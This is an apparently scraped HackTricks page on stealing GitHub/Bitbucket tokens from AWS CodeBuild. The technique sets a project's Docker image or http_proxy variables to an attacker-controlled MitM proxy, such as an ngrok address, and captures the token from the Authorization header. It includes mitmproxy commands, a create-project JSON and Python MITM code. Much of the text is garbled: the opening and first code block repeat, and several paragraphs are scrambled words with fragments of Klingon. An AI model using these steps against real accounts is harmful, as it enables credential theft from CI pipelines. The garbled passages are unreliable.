 # AWS Codebuild - Token Leakage

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured tha you could leak:

```
QaS Codebuild - Token Leakage

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured tha you could leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

**Docker Image** jatlhlaHbe'lu'pu' 'ej **Codebuild** **ghun token** **OAuth token** **exfiltrate** **access** **leak** **authentication** **find** **authentication** **set** **account** **example Github** **use** **Codebuild** **run** **project** **build**.

**Codebuild project** **new** **create** **change** **environment** **existing** **set** **Docker image**.

**Docker image** [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm) **use** **could**. **Docker image** **basic** **very** **is** **env variables `https_proxy`**, **`http_proxy`**, **`SSL_CERT_FILE`** **set**. **traffic** **most** **intercept** **allow** **will** **image** **Docker** **this**.

1. **Docker MitM image** **own** **your** **Create & Upload**
* **repo** **the** **instructions** **Follow** **image** **docker** **build** **cert SSL** **your** **set** **address IP proxy** **your** **set** **proxy** **the** **host** **your** **to** **4444 tcp** **like** **`ngrok`** **use** **could**.
* **metadata endpoint** **requests** **intercept** **not** **TO SET `http_proxy`** **DO**.
* **public repo** **a** **it** **image** **Docker** **have** **you** **Once** **built**.
2. **environment** **the** **Set**
* **existing one** **an** **project** **Codebuild** **new** **Create**.
* **image Docker** **generated previously** **the** **use** **project** **Set**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **host your in proxy MitM Set**

* **repo Github** **the** **indicated** **As** **like** **something** **use** **could**:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.
{% endhint %}

4. **Run the build & capture the credentials**

*   You can see the token in the **Authorization** header:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**
{% endhint %}

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* **Qapla'**, **Build the project** vIghoS, **credentials** **ghItlhmeH** **Sent** **ghItlhmeH** (base64) **mitm port**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
**vItlhutlh** **ghItlhmeH** **token** **machin**e, **privileges** **list** **'ej** (ab)use **CodeBuild** **service** **directly**.
{% endhint %}

<details>

<summary><strong>**AWS hacking** **zero** **hero** **Learn** **htARTE (HackTricks AWS Red Team Expert)**</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>**!**</strong></a></summary>

**HackTricks** **support** **ways** **Other**:

* **'ej** **HackTricks** **PDF** **download** **company advertised** **want** **If** **Check** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* **official PEASS & HackTricks swag** [**Get**](https://peass.creator-spring.com)
* **The PEASS Family** [**Discover**](https://opensea.io/collection/the-peass-family), **exclusive NFTs** **collection** **our**
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** **the** [**follow**](https://t.me/peass) **us** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **hacking tricks** **your** **Share** **submitting PRs** **by** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** **github repos** **the**.

</details>
